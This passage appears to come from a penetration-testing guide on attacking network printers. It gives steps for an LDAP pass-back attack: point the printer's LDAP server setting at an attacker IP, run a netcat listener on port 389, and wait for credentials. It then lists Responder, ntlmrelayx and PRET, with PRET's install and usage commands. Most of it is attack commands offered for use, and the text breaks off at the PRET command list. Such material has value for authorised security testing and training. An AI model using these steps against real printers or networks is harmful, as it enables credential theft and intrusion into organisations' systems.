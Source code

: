 #### Accessing LDAP Settings
1. Navigate to printer's web interface
2. Look for "Network" or "Security" settings
3. Find "LDAP" or "Authentication" configuration
4. Common locations:
   - Network → Authentication
   - Security → LDAP Sign In Setup
   - Settings → Network Services

#### Replace LDAP Server
```bash
# Step 1: Note current LDAP server settings
# - Server Address (e.g., 192.168.1.100)
# - Port (usually 389 or 636)
# - Bind DN and credentials

# Step 2: Set up netcat listener on LDAP port
nc -lvp 389

# Step 3: Replace LDAP server with attacker IP
# Change LDAP Server Address to attacker IP
# Keep same port (389)
# Save configuration
```

### 4. Credential Capture
```bash
# Set up netcat listener
nc -lvp 389

# Alternative: Use custom LDAP server
# Install and configure OpenLDAP or use tools like:
# - Responder
# - Impacket's ntlmrelayx
# - Custom Python LDAP server

# Wait for user to authenticate (scan-to-email, etc.)
# Credentials will be sent to your server
```

## Tools and Techniques

### Essential Tools
- **PRET (Printer Exploitation Toolkit)**
- **Praeda** - Printer data extraction
- **Nmap** - Service discovery
- **Netcat** - Credential capture
- **Responder** - Network credential capture
- **Burp Suite** - Web interface testing

### PRET - Printer Exploitation Toolkit
```bash
# Installation
git clone https://github.com/RUB-NDS/PRET.git
cd PRET
pip install colorama pysnmp

# Usage examples
python pret.py target_ip pjl        # PostScript/PCL
python pret.py target_ip ps         # PostScript
python pret.py target_ip pcl        # PCL

# Common PRET commands
```